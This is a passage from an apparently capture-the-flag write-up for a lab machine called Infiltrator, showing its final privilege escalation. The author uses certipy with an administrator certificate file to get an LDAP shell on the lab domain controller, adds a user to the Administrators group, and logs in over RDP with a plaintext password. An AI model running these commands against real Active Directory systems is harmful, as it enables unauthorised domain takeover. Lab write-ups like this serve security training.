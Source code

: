 We hit a timeout error one of the times, but I just reran it, and it went through. We now have an "administrator.pfx" file that we can authenticate to ldap with. Let's pop an ldap shell as administrator:

```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ certipy auth -pfx ./administrator.pfx -ldap-shell -dc-ip 10.129.171.160      
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://10.129.171.160:636'
[*] Authenticated to '10.129.171.160' as: u:INFILTRATOR\Administrator
Type help for list of commands

# 

```

And we are basically done. We have an adminstrator session inside an ldap shell, so we can just add o.martinez to the administrators group, and then rdp back in to trigger a login event and access the root flag (if the logon event does not occur automatically, just sign out manually, and then rdp back in):

```
# add_user_to_group o.martinez administrators
Adding user: O.martinez to group Administrators result: OK

xfreerdp3 /v:10.129.171.160 /u:o.martinez /p:'M@rtinez_P@ssw0rd!' /dynamic-resolution
```

<figure><img src=".gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>
